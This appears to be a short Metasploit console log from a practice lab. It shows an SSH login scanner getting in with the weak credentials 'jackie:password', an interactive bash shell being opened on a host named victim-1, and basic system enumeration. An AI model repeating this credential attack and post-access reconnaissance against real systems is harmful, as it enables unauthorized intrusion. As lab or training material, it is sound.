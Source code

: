```
msf5 auxiliary(scanner/ssh/ssh_login) > sessions

Active sessions
===============

  Id  Name  Type           Information                            Connection
  --  ----  ----           -----------                            ----------
  1         shell unknown  SSH jackie:password (192.127.83.3:22)  192.127.83.2:40663 -> 192.127.83.3:22 (192.127.83.3)

msf5 auxiliary(scanner/ssh/ssh_login) > sessions 1
[*] Starting interaction with 1...

Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 5.4.0-125-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

pwd
/home/jackie
/bin/bash -i
bash: cannot set terminal process group (2909): Inappropriate ioctl for device
bash: no job control in this shell
jackie@victim-1:~$ 
```

```
jackie@victim-1:~$ whoami
whoami
jackie
jackie@victim-1:~$ cat /etc/*issue
cat /etc/*issue
Ubuntu 18.04.3 LTS \n \l

jackie@victim-1:~$ uname -r
uname -r
5.4.0-125-generic
jackie@victim-1:~$ ^Z
Background session 1? [y/N]  y
```
